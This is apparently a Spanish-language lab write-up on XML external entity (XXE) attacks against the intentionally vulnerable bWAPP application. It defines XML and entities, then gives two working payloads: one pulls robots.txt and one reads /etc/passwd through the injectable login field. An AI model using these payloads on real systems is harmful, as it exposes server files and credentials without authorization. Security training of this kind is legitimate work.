



> **XML** (Extensible Makuo Language) es un lengaje de marcado que se usa comunmente en el desarrollo web. Se utiliza para almacenar y transportar datos.

**version**: se utiliza para especificar la versió del estandar XML que se está utilizando   
**encoding**: se declara para especificar la codificación a utilizar.  

### Que es una entidad

Son la forma de representar datos que estan presentes dentro de un documento XML.

La declaración de una entidad externa usa la palabra clave `SYSTEM` y debe especificar una `URL` desde el cual se debe cargar el valor de la entidad.

`<! ENTITY var SYSTEM "URL">`

`var`: nombre de la entidad  
`SYSTEM`: palabra clave utilizada  
`URL`: url que queremos obtener al realizar un ataque xxe  

## Ataque XXE

Interceptamos la petición de la opción `external Injection Attacks` de la aplicación `bWAPP`.



Se puede observar que no hay ningun filtro aplicado por lo que es posible un XXE.  
haciendo un análisis de los campos establecidos concluyo que el campo login es inyectable.

Declaramos un `doctype` con el nombre **reset** y lugo dentro de eso declaramos una entidad llamada **bee**. Usamos el identificador de `SYSTEM` y lugo ingreo la URL de robots.txt.

```
<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY bee SYSTEM "http://192.168.0.106/bWAPP/robots.txt">
	]>
	<reset>
		<login>
			&bee;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>
```



**Archivo remoto**

```
<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY bee SYSTEM "file:///etc/passwd">
	]>
	<reset>
		<login>
			&bee;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>


